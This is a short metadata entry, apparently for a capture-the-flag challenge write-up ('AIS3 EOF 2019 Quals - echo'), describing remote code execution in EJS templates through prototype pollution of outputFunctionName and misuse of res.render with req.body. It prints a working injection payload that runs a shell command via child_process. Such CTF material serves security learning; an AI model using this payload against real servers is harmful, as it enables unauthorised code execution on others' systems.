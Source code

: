 ```yaml
---
title: "AIS3 EOF 2019 Quals - echo"
description: "EJS RCE

outputFunctionName
直接拼接到模板執行
污染即可 RCE: Object.prototype.outputFunctionName = \"x;process.mainModule.require('child_process').exec('touch pwned');x\";
補充: 不需要 Prototype Pollution 的 RCE (ejs render 誤用)

漏洞成因: res.render('index.ejs', req.body);
req.body 會污染到 options 進而污染到 outputFunctionName (HPP)
Example: 



"
external_url: "https://github.com/CykuTW/My-CTF-Challenges/tree/master/AIS3-EOF-CTF-2019-Quals/echo"
category: "Miscellaneous"
---
```

